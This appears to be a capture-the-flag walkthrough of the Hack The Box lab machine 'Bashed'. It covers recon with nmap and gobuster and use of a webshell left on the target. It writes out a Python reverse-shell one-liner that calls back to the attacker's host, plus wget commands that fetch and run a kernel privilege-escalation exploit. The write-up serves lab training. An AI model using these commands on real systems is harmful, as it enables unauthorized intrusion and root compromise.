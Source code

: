 # Bashed

## Recon

Now that we have the target IP address of 10.10.10.68, let's perform some recon
and enumeration. 

To being, run an `nmap` scan:

```
$ nmap -sV -sC -p- -T4 10.10.10.68 -oN nmap_scan.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 11:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 484.14 seconds
```

The only service running on this target is an HTTP Apache web server. Let's
enumerate it further with `gobuster` to check for hidden directories.

```
$ gobuster dir -u http://10.10.10.68:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

/images
/uploads
/php   
/css  
/dev 
/js 
/fonts
```

The only folder that contained anything useful was `/dev`. Open it and click on
the file `phpbash.php`

![phpbash](screenshots/phpbash.png)

It is a full `bash` shell within the browser! While having a terminal in the
browser is nice, I prefer a proper reverse shell.

## Spawning a Reverse Shell

Start a netcat listener on our host machine:

```
$ sudo nc -nlvp 80
```

Connect to it on the target machine:

```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.29",80));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Now we have a reverse shell! You can optionally [upgrade it to a more stable
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/) like below:

![revshell](screenshots/revshell.png)


The user flag is located in `/home/arrexel/user.txt`.

## Privilege Escalation

Now to find a way to escalate our privileges to the root user. I ran `sudo -l`
to list what programs (if any) we can execute as root:

```
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I was having issues with scriptmanager, so I tried a different privilege
escalation technique.

Let's check out the kernel release and version information:

```
$ uname -rv 
4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

When Googling for "4.4.0-62-generic privilege escalation" I found this
[exploit-db C exploit](https://www.exploit-db.com/exploits/41458). The target
does not have `gcc` or `clang` installed, so I compiled the binary locally and
uploaded it to the target with `wget`. Here's how:

On host:
```
# save the linked exploit as pwn.c
$ gcc pwn.c -o pwn
$ python3 -m http.server 8080
# we now have a make-shift webserver! 
```

On target:
```
$ wget "http://10.10.14.29:8080/pwn" -O pwn
$ chmod 777 pwn
$ ./pwn
```

We now have a root shell! Print out `/root/root.txt` and win!
